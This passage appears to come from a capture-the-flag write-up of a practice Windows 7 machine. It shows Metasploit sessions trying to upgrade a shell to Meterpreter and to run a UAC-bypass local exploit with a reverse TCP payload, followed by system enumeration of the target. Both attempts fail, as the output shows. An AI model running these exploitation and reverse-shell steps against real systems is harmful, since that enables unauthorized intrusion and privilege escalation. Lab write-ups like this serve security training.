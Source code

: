 ```

msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf6 post(multi/manage/shell_to_meterpreter) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[-] Shells on the target platform, bsd, cannot be upgraded to Meterpreter at this time.
[*] Post module execution completed
```
Nope.

What about `exploit/windows/local/bypassuac`?
```
msf6 > use exploit/windows/local/bypassuac
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac) > show options
...
msf6 exploit(windows/local/bypassuac) > sessions -l

Active sessions
===============

  Id  Name  Type             Information     Connection
  --  ----  ----             -----------     ----------
  1         shell sparc/bsd  Spawn Shell...  10.10.x.x:4545 -> 10.129.135.184:49158 (10.129.135.184)

msf6 exploit(windows/local/bypassuac) > set session 1
session => 1
msf6 exploit(windows/local/bypassuac) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf6 exploit(windows/local/bypassuac) > set lport 4433
lport => 4433
msf6 exploit(windows/local/bypassuac) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 10.10.x.x:4433 
[-] Exploit aborted due to failure: none: Already in elevated state
[*] Exploit completed, but no session was created.
```
Nope, didn't work.

Enumerating with regular shell, we know it's Windows 7 in x86.
```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
...
System Type:               X86-based PC
```
